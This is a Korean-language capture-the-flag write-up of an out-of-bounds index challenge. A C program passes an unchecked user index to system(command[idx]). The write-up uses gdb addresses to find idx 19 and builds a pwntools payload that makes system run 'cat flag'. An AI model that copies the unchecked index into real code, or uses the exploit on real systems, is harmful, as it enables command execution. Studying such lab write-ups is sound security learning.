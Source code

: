 ```c
    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

### 1. 문제 코드 핵심 요약

```c
char name[16];
char *command[10] = {"cat", "ls", "id", "ps", "file ./oob"};
...
read(0, name, sizeof(name));
scanf("%d", &idx);
system(command[idx]);
```

* `command[idx]`에 대한 **범위 검사 없음**
* `name`과 `command`가 **메모리상 연속적으로 위치**함 → OOB 가능

---

### 2. 메모리 레이아웃 분석 (gdb)

```
command: 0x804a060
name:    0x804a0ac
```

* 차이: `0x4c = 76 bytes`
* 포인터 배열이므로 4바이트 단위 → `76 / 4 = 19`
* 즉, `idx = 19`일 때 `command[19] == name`

---

### 3. 익스플로잇 원리

* `command[19]`는 `name`을 가리키게 됨
* `name`에 다음과 같이 구성:

  * 앞 4바이트: `name+4` 주소 → system이 참조할 명령어 위치
  * 뒤 8바이트: 실제 명령어 문자열 (예: "cat flag")

```python
payload = p32(0x804a0ac+4) + b"cat flag"
```

---